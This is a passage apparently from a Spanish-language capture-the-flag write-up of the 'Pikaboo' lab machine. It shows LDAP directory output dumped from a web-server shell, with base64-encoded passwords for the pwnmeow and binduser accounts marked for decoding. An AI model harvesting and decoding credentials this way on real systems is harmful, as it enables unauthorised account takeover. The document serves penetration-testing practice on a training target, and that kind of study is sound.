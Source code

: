 ```bash
homeDirectory: /home/pwnmeow
userPassword:: X0cwdFQ0X0M0dGNIXyczbV80bEwhXw== <---

# binduser, users, pikaboo.htb
dn: cn=binduser,ou=users,dc=pikaboo,dc=htb
cn: binduser
objectClass: simpleSecurityObject
objectClass: organizationalRole
userPassword:: Sn40MiVXP1BGSGxdZw== <----

# users, pokeapi.pikaboo.htb
dn: ou=users,dc=pokeapi,dc=pikaboo,dc=htb
objectClass: organizationalUnit
objectClass: top
ou: users

# groups, pokeapi.pikaboo.htb
dn: ou=groups,dc=pokeapi,dc=pikaboo,dc=htb
objectClass: organizationalUnit
objectClass: top
ou: groups

# search result
search: 2
result: 0 Success

# numResponses: 11
# numEntries: 10
www-data@pikaboo:/opt/pokeapi/config$ 
```

Lo que me interesa es esta información.

```bash

# pwnmeow, users, ftp.pikaboo.htb
dn: uid=pwnmeow,ou=users,dc=ftp,dc=pikaboo,dc=htb
objectClass: inetOrgPerson
objectClass: posixAccount
objectClass: shadowAccount
uid: pwnmeow
cn: Pwn
sn: Meow
loginShell: /bin/bash
uidNumber: 10000
gidNumber: 10000
homeDirectory: /home/pwnmeow
userPassword:: X0cwdFQ0X0M0dGNIXyczbV80bEwhXw==

```
Veamos qué contiene la cadena en base64

